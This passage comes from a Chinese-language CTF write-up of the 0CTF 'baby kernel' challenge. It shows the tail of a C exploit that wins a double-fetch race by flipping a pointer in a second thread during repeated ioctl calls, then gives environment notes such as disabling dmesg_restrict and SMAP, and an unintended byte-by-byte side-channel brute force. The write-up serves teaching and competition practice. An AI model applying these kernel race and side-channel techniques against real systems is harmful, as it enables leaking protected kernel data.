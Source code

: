 ```c
    idx = strstr(buf,"Your flag is at ");
    if (idx == 0){
        printf("[-]Not found addr");
        exit(-1);
    }
    else{
        idx+=16;
        addr = strtoull(idx,idx+16,16);
        printf("[+]flag addr: %p\n",addr);
    }
	//构造attr数据结构
    t.len = 33;
    t.flag = buf;
    //新建恶意线程
    pthread_create(&t1, NULL, change_attr_value,&t);
    for(int i=0;i<TRYTIME;i++){
        ret = ioctl(fd, 0x1337, &t);
        t.flag = buf;
    }
    finish = 1;
    pthread_join(t1, NULL);
    close(fd);
    puts("[+]result is :");
    system("dmesg | grep flag");
    return 0;
}
```

### 其他
此题在环境配置时，有几点需要注意。

首先， 需关闭 `dmesg_restrict` ，否则无法查看 `printk` 信息，具体操作是在启动脚本中加入：

```bash
echo 0 > /proc/sys/kernel/dmesg_restrict
```

其次，配置 QEMU 启动参数时， 不要开启 `SMAP` 保护，否则在内核中直接访问用户态数据会引起 `kerne panic` 。

还有，配置 QEMU 启动参数时，需要配置为非单核单线程启动，否则无法触发题目中的竞争条件。具体操作是在启动参数中增加其内核数选项，如：

```bash
-smp 2,cores=2,threads=1  \
```

> 在启动后，可通过 `/proc/cpuinfo` 查看当前运行的内核数及超线程数。

最后，此题存在一种侧信道攻击的非预期解法：

>由于是 flag 是硬编码的，并且是检查方法是逐字节比较，因此可以逐字节爆破来得到 flag。
>
>方法是将待爆破的字节放在 mmap 申请的内存页末位，此时下一字节位于不可读写的用户态空间。当得到正确的一字节时，内核会比较用户空间内下一个字节的正确性，由于该地址是不可读的，将导致 `kernel panic`，从而可以判断是否爆破的一个字节正确。

## Reference
https://www.usenix.org/conference/usenixsecurity17/technical-sessions/presentation/wang-pengfei

https://veritas501.space/2018/06/04/0CTF%20final%20baby%20kernel/

http://p4nda.top/2018/07/20/0ctf-baby/

https://www.freebuf.com/articles/system/156485.html



